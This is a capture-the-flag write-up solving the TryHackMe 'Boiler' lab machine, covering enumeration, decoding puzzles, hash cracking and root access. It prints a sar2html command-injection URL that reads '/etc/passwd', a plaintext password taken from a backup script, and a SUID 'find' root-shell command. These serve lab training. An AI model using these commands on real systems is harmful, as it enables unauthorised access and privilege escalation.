


# Boiler
**Date:** February 13th 2022

**Author:** j.info

**Link:** [**Boiler**](https://tryhackme.com/room/boilerctf2) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>


<br>


## Objectives
- File extension after anon login?
- What is on the highest port?
- What's running on port 10000?
- Can you exploit the service running on that port?
- What CMS can you access?
- The interesting file name in the folder?
- Where was the other users pass stored?
- user.txt flag
- What did you exploit to get the privileged user?
- root.txt flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sC -sV -A -T4 10.10.8.119`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
```

Additional nmap scans show:

```
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
10000/udp open  webmin  (https on TCP port 10000)
```

This gives us answers to the second and third objectives:

- **What is on the highest port?**
- **What's running on port 10000?**

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.6.122 -t 50 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11321]
/manual               (Status: 200) [Size: 626]  
/robots.txt           (Status: 200) [Size: 257]  
/joomla               (Status: 200) [Size: 12455]
/server-status        (Status: 403) [Size: 299]
```

This answers the fifth objective: **What CMS can you access?**

<br>

## FTP Digging

`ftp 10.10.8.119`

```
Connected to 10.10.8.119.
220 (vsFTPd 3.0.3)
Name (10.10.8.119:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||49370|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
229 Entering Extended Passive Mode (|||40819|)
150 Opening BINARY mode data connection for .info.txt (74 bytes).
100% |*******************************************|    74       48.95 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (0.90 KiB/s)
ftp> quit
221 Goodbye.
```

That gives us the answer to our first objective: **File extension after anon login?**

`cat .info.txt`

```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

Running that through [**CyberChef**](https://gchq.github.io/CyberChef/) with a rot13:

<br>


<br>

## Website Digging

Taking a look in the **robots.txt file**:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

I dig into those numbers at the bottom since they are definitely out of place. Just looking at them I think they look like **ASCII character codes** and convert them:

```
OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK
```

This now looks like **base64** to me so I decode this as well into:

```
99b0660cd95adea327c54182baa51584
```

Running that through **hashcat**:

`hashcat -m 0 hash.txt rockyou.txt`

```
99b0660cd95adea327c54182baa51584:kidding
```

Interesting. Something tells me that based on this and the robots.txt file the creater of this CTF is trolling people but we'll see if this works as a login somewhere else.

Going to the website reveals a default Apache website with no configuration. Checking out **/joomla** gives us a very basic page but does have a search box and login capabilities:

<br>


<br>

Another **gobuster** scan of the **/joomla** directory:

`gobuster dir -u http://10.10.8.119/joomla -t 50 -r -x php,txt,html -w dir-med.txt`

```
/templates            (Status: 200) [Size: 31]
/media                (Status: 200) [Size: 31]
/modules              (Status: 200) [Size: 31]
/images               (Status: 200) [Size: 31]
/index.php            (Status: 200) [Size: 12476]
/tests                (Status: 200) [Size: 1554]
/bin                  (Status: 200) [Size: 31]
/plugins              (Status: 200) [Size: 31]
/includes             (Status: 200) [Size: 31]
/language             (Status: 200) [Size: 31]
/README.txt           (Status: 200) [Size: 4793]
/components           (Status: 200) [Size: 31]
/cache                (Status: 200) [Size: 31]
/libraries            (Status: 200) [Size: 31]
/installation         (Status: 200) [Size: 5796]
/build                (Status: 200) [Size: 3389]
/tmp                  (Status: 200) [Size: 31]
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 200) [Size: 31]
/administrator        (Status: 200) [Size: 5155]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 3159]
/cli                  (Status: 200) [Size: 31]
/_files               (Status: 200) [Size: 168]
/_test                (Status: 200) [Size: 4802]
```

I start going through the directories and find this in the **/joomla/tests/codeception/acceptance.suite.dist.yml** file:

```
	   username: 'admin'                      # UserName for the Administrator
            password: 'admin'                      # Password for the Administrator
            database host: 'localhost'             # place where the Application is Hosted #server Address
            database user: 'root'                  # MySQL Server user ID, usually root
            database password: ''                  # MySQL Server password, usually empty or root
            database name: 'test_joomla'           # DB Name, at the Server
            database type: 'mysqli'                # type in lowercase one of the options: MySQL\MySQLi\PDO
            database prefix: 'jos_'                # DB Prefix for tables
            install sample data: 'no'              # Do you want to Download the Sample Data Along with Joomla Installation, then keep it Yes
            sample data: 'Default English (GB) Sample Data'    # Default Sample Data
            admin email: 'admin@mydomain.com'      # email Id of the Admin
```

I also find this in the **/joomla/build/jenkins/docker-compose.yml**:

```
  mysql:
   image: mysql:5.7
   restart: always
   environment:
     MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

And this:

<br>


<br>

This also looks like **base64** so I try and decode it:

`echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d`

```
V2hvcHNpZSBkYWlzeQo=
```

Aaaaaaand again. This CTF creator is definitely having fun with the people who go through this.

`echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d | base64 -d`

```
Whopsie daisy
```

I try to visit **webmin** on port **10000** and it tells you:

```
Error - Document follows

This web server is running in SSL mode. Try the URL https://ip-10-10-243-232.eu-west-1.compute.internal:10000/ instead.
```

And going to that suggested URL does not work, so that gives us the answer to objective four: **Can you exploit the service running on that port?**

Visiting **/administrator** takes you to a login page:

<br>


<br>

I try some of the passwords found above on the admin user and don't have any luck.

Going to the **_test** page takes you to something called **sar2html**:

<br>


<br>

I search for **sar2html exploit** and find something on [**exploit-db**](https://www.exploit-db.com/exploits/47204) saying you can get RCE:

<br>


<br>

Going to the following URL:

```
10.10.116.239/joomla/_test/index.php?plot=;cat%20/etc/passwd
```

<br>


<br>

I think we may finally be getting somewhere!

I try and look at the files inside of the home directories for the two users on the system, **basterd** and **stoner**, but don't have any luck due to permissions.

I check out the **www** directory and find some interesting information in this file:

```
http://10.10.243.232/joomla/_test/index.php?plot=;cat%20/var/www/html/joomla/_test/log.txt
```

<br>



<br>

That gives us the answer to the sixth objective: **The interesting file name in the folder?**

<br>

## Basterd

Now that we found some credentials let's see if we can ssh in as the user.

`ssh basterd@10.10.243.232 -p 55007`

```
basterd@10.10.243.232's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami
basterd
$ hostname
Vulnerable
```

We finally have access to the system. Let's explore.

Looking in his home directory you see the following file:

```
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
```

Looking inside:

```
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

Well, right away it looks like we have some more credientials for the user **stoner**. This answers our seventh objective: **Where was the other users pass stored?**

I check `sudo -l` under user **basterd** and am not able to, so I switch over to user **stoner**.

<br>

## Stoner

**Note**: if you're having trouble switching to this user make sure you remove the **#** sign at the start of the credentials in the **backup.sh** file.

`su stoner`

```
stoner@Vulnerable:/home/basterd$ whoami
stoner
```

I take a look in his home directory for the **user.txt** flag and don't find it there, but I do find a file called **.secret** that is the answer to that objective which completes objective number eight.

Checking `sudo -l`:

```
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

Checking for any files with capabilities set:

`getcap -r / > test.txt ; cat test.txt`

```
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

Checking for any **SUID** files:

`find / -type f -perm /4000 -printf "%M   %p"\\n  2&> /dev/null`

```
-rwsr-xr-x   /bin/su
-rwsr-xr-x   /bin/fusermount
-rwsr-xr-x   /bin/umount
-rwsr-xr-x   /bin/mount
-rwsr-xr-x   /bin/ping6
-rwsr-xr-x   /bin/ping
-rwsr-xr-x   /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr--   /usr/lib/apache2/suexec-custom
-rwsr-xr--   /usr/lib/apache2/suexec-pristine
-rwsr-xr--   /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x   /usr/lib/openssh/ssh-keysign
-rwsr-xr-x   /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x   /usr/bin/newgidmap
-r-sr-xr-x   /usr/bin/find
-rwsr-sr-x   /usr/bin/at
-rwsr-xr-x   /usr/bin/chsh
-rwsr-xr-x   /usr/bin/chfn
-rwsr-xr-x   /usr/bin/passwd
-rwsr-xr-x   /usr/bin/newgrp
-rwsr-xr-x   /usr/bin/sudo
-rwsr-xr-x   /usr/bin/pkexec
-rwsr-xr-x   /usr/bin/gpasswd
-rwsr-xr-x   /usr/bin/newuidmap
```

<br>

## Root

The **find** command sticks out and we should be able to escalate our privileges with that. Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/find/) shows us the following for the **find** command:

<br>



<br>

Let's run the command:

`find . -exec /bin/sh -p \; -quit`

```
stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
```

That answers the question for the ninth objective: **What did you exploit to get the privileged user?**

Let's go get our final flag, which answers our last objective: **root.txt flag**:

```
# cd /root
# ls
root.txt
# cat root.txt
It wasn't that hard, was it?
```

<br>

We've done it! That was a pretty long CTF with many things to enumerate and I had a lot of fun going through and solving the challenges.

<br>


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Logging into an FTP server anonymously and finding information
- Using **CyberChef** to decode **ROT13** text
- Converting **ASCII** character codes
- Converting **base64** encoded data
- Using **hashcat** to crack a password hash
- Using and exploiting **sar2html**
- Exploiting a **SUID** bit set on the **find** command to escalate privileges to root

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF.
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
